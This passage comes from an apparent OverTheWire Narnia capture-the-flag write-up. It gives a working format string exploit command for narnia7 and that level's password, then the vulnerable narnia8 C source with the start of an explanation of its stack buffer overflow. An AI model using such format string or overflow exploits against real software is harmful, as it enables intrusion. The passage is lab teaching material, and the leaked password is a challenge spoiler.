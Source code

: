 ```C
}

``` 
This level consists in a format string attack. 

I used DPA to perform a format string attack then, with a copy of SUID program in `/tmp/cc`, I generated a core dump file in order to set the string passed as argument.

```bash
$ ./narnia7 $(python -c 'print "\x7c\xd4\xff\xff"*18+"\x7d\xd4\xff\xff"+"\x7e\xd4\xff\xff"+"\x7f\xd4\xff\xff"+"aa%23$n"+"aaaa"*12+"a"+"%24$n"+"bbbb"*31+"b"+"%25$n"+"aaaa"+"%26$n"')
```

##### PASS=mohthuphog
#
#
#


------------------------------------------------------------------------------------------------------------------------------------




## narnia8 -> narnia9

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
// gcc's variable reordering fucked things up
// to keep the level in its old style i am
// making "i" global unti i find a fix
// -morla
int i;

void func(char *b){
	char *blah=b;
	char bok[20];
	//int i=0;

	memset(bok, '\0', sizeof(bok));
	for(i=0; blah[i] != '\0'; i++)
		bok[i]=blah[i];

	printf("%s\n",bok);
}

int main(int argc, char **argv){

	if(argc > 1)
		func(argv[1]);
	else
	printf("%s argument\n", argv[0]);

	return 0;
}
```
This last exploit consists in a buffer overflow.
The for iteration in func is a byte to byte assignment that stops if our argv[1] contains null byte for any i>0.
